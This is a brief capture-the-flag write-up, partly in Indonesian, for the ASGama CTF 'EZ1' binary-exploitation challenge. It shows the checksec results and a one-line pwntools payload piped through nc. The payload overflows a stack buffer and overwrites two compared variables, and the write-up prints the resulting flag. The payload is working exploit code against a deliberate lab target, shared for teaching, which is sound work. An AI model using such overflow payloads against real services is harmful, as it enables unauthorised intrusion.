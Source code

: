 # __ASGama CTF__ 
## _EZ1_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 100 | l0l

**Description:** 

> EZ 1
>
> ez
> nc asgama.web.id 40210
>
> [ez1](./ez1)

### ez1
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=91cf29963d62f9f85d561bb273ed4d7a54b5037b, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### ez1 Disassembly
![main](disassembly.png)

Soal ini mirip seperti [Buffer1](../Buffer1/README.md) hanya pembandingan nilai pada address tidak hanya sekali namun dua kali.


### Payload
`$ python -c "from pwn import p32; print 'A'*(0x90-0x10)+p32(0)+p32(0x13377331)" | nc asgama.web.id 40210`


### Result 
```
$ python -c "from pwn import p32; print 'A'*(0x90-0x10)+p32(0)+p32(0x13377331)" | nc asgama.web.id 40210
GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}
```

### Flag 
GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}